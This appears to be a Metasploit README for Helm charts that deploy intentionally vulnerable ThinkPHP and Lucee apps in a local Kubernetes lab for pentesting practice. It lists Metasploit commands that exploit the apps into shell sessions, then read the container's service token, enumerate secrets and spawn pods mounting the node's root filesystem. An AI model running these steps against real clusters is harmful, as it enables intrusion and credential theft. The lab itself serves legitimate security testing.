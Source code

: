 ### Kubernetes

A collection of [Helm](https://helm.sh/) charts have been created to aid both Metasploit developers and pentesters explore Metasploit's
Kubernetes support. These charts can help provision your local Kubernetes environment with intentionally vulnerable applications,
which can be exploited using Metasploit modules.

## Usage

### Requirements

Kubernetes is installed on your host machine with either [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation),
[Minikube](https://minikube.sigs.k8s.io/docs/start/), [Docker Desktop](https://docs.docker.com/desktop/kubernetes/), or alternatives.

If you are using Kind, you will need to create a cluster ahead of time:

```
kind create cluster
```

Kubectl and Helm will also need to be available on your path, an example of installing these tools can be found within the
example [Dockerfile](./Dockerfile).

### Installing

The provided `Makefile` will have all of the required commands available for setting up your environment:

```
make help
```

Next install the vulnerable charts and configuration:

```
make install
```

If you are on a Mac environment, you can optionally use the `docker-compose` setup:

```
docker-compose run setup
```

It is also possible to enter into an interactive environment with the required Helm/Kubectl tools available:

```
$ docker-compose run --service-ports setup /bin/sh
kubectl get all --all-namespaces
helm list
make install
```

## Available Charts

### secrets

Create multiple Kubernetes Secrets to test Metasploit's enumeration capabilities:

```
make secrets
```

### thinkphp

Run an intentionally vulnerable `thinkphp` application with full cluster access:

```
make thinkphp
```

Forwarding to host on port 9001:
```
make forward-thinkphp
```

Exploitation will result in a Meterpreter session with full cluster access:
```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

### lucee

Run an intentionally vulnerable `lucee` application with a default service account with minimal access:
```
make lucee
```

Forwarding to host on port 9002:
```
make forward-lucee
```

Exploitation will result in a cmd shell session with a default service account with minimal access:
```
use linux/http/lucee_admin_imgprocess_file_write
run http://target_ip:9002 lhost=...
```

### Workflow Example

First configure the Kubernetes environment:
```
make install
```

Now expose the exploitable thinkphp application to your host machine. In the real world this step would not be required
as the application would be most likely already be publicly accessible:

```
make forward-thinkphp
```

Open Metasploit and exploit the thinkphp container to open a Metarpreter session:

```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

The `auxiliary/cloud/kubernetes/enum_kubernetes` module can now be used to pivot through the compromised container to reach
the previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the compromised service token has the required permissions to create new pods, it is possible to open additional Metasploit sessions and
run one-of tasks with the `exploit/multi/kubernetes/exec` module. This newly created pod will also attempt to mount the Kubernetes Node's
root filesystem to `/host_mnt`, which may lead to additional attack vectors:

```
use exploit/multi/kubernetes/exec
run session=-1
```

See the corresponding documentation for each module for more detail.

## Kubernetes Dashboard

To access the Kubernetes dashboard:

```
make dashboard
make forward-dashboard
```

Now visit https://localhost:9443, and select the token option. To generate an admin token will full access to the cluster:

```
make admin-token
```
